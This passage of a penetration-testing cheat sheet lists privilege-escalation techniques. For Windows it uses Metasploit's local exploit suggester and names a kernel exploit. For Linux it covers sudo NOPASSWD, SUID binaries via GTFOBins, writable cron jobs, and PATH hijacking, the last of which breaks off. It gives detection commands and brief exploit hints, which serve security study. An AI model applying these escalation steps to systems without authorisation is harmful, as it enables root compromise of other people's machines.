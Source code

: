 **Missing Hotfix / Kernel Privesc**

- **Detect**
    

```cmd
systeminfo
wmic qfe get HotFixID,InstalledOn
```

- **Exploit**
    

```text
use post/multi/recon/local_exploit_suggester
set SESSION <id>
run
# pick suggested exploit (e.g. ms10_015_kitrap0d)
```

---

## 🐧 Linux

**Sudo Misconfig (NOPASSWD)**

- **Detect**
    

```bash
sudo -l
```

- **Exploit**: Run allowed GTFOBin command as root.
    

**SUID Binaries**

- **Detect**
    

```bash
find / -perm -4000 -type f 2>/dev/null
```

- **Exploit**: Abuse with GTFOBins (e.g., nmap, vim).
    

**Writable Cron Jobs / Systemd Timers**

- **Detect**
    

```bash
ls -lah /etc/cron* /var/spool/cron
systemctl list-timers --all
```

- **Exploit**: Replace or edit script run by root.
    

**PATH Hijacking**

- **Detect**
    